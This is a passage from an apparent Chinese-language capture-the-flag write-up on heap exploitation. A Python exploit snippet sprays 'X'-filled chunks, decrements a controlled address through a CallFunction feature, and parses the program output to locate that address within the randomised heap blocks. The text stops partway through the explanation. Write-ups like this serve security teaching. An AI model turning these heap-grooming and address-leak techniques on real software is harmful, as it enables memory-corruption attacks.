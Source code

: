 然后我们虽然控制了**magic_addr**地址内容，但是却不知道它在哪个Big Block，哪个Small Block里。

接下来利用CallFunction函数功能，可以将该地址内容减一，再输出时，就会与众不同（几乎所有的内容都是**X**，唯独magic_addr因为减一操作，**X**变为**W**），利用这一差异，可以推算出magic_addr在堆中的分布

```
# malloc 0x1 * 0x10 * 0x1000        0x1000000
    for i in range(0x10):
        data.append(['X' * (0x1000 - 1), 1])

    malloc(0x1000, data)                # index  0x100 - 0x10f
    delete()

    data = []
    # malloc 0x1 * 0x10 * 0xf0 chunk
    for i in range(0x10):
        data.append(['X' * (0xf0 - 1), 0])  # undefine type will be left XXXX
    malloc(0xf0, data)                  #index 0x100 - 0x10f 

    #dbg()
    #every malloc 0x10 chunk

    # set 0x58585858 = 0x58585857
    # because of not null will dec 1
    callfuc(0x100)                     # 0x100 - 0x10f all work
    # show 
    show(0, 0x100)                     # 

    index = 0
    offest = 0
    out = ''
    for i in range(0x100):
        out = p.recvline()          
        if 'W' in out:              # 'W' = 'X' - 1; while means 0x58585858 is contained
            index = i
            break

    out = out[12 : ]                # 12 is 'Notes are : '
    offest = out.index('W')         #  'W''s offset in small block
    log.info('0x58585858 is : %d' % index) #    small block's index
    log.info('offest is : %d' % offest)    
    log.info('start addr is : ' + hex(0x58585858 - offest)) # small block's start addr
    block_start = (index / 0x10) * 0x10         # big block's index
    log.info('block start is : ' + hex(block_start))
    magic_addr = 0x58585858

    #0x100-0x10f free
    delete()
```

虽然知道了magic_addr在堆上的index，但是仍然无法直到初始堆的地址（因为Small Block是随机的，index不能表现堆地址的高低），所以现在的magic_addr在堆上情况大致是这样的（低地址 —&gt; 高地址）
